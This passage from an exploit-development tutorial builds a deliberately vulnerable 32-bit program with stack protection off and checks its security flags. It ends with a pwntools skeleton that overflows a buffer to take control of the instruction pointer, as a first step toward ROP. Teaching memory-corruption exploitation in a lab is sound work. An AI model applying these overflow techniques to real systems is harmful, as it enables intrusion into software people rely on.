 When compiling this code we'll aim to mark the writable regions of memory as non-executable.
According to the original source [1], the resulting binary isn't big enough to perform
ROP attacks. Let's see:

```bash
root@9a78bba9592e:~/tutorial# pwd
/root/tutorial
root@9a78bba9592e:~/tutorial# gcc -m32 -g -fno-stack-protector -znoexecstack -o ./build/1_nx ./src/1_staticnx.c
root@9a78bba9592e:~/tutorial# ls -lh build/1_nx
-rwxr-xr-x 1 root root 7.6K Jun 18 17:49 build/1_nx
```

So what we do instead is compiling it as a statically linked ELF. This should include library code in the final executable and bulk up the size of the binary.
```
root@9a78bba9592e:~/tutorial# gcc -m32 -g -fno-stack-protector -static -znoexecstack -o ./build/1_staticnx ./src/1_staticnx.c
root@9a78bba9592e:~/tutorial# ls -lh build/1_
1_nx        1_staticnx  
root@9a78bba9592e:~/tutorial# ls -lh build/1_
1_nx        1_staticnx  
root@9a78bba9592e:~/tutorial# ls -lh build/1_staticnx
-rwxr-xr-x 1 root root 729K Jun 18 17:51 build/1_staticnx
```

There's indeed a big difference between them.

Checking the security of these files indeed deliver an active NX flag:
```bash
root@9a78bba9592e:~/tutorial# checksec build/1_*
[*] '/root/tutorial/build/1_nx'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/root/tutorial/build/1_staticnx'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

#### Obtaining EIP Control
Let's build a exploit to take control of the instructions pointer. A first skeleton is presented below:

```Python
#!/usr/bin/python

from pwn import *

def main():
    # Start the process
    p = process("../build/1_staticnx")

    # Craft the payload
    payload = "A"*148 + p32(0xdeadc0de)
    payload = payload.ljust(1000, "\x00")

    # Print the process id
    raw_input(str(p.proc.pid))

    # Send the payload
    p.send(payload)
```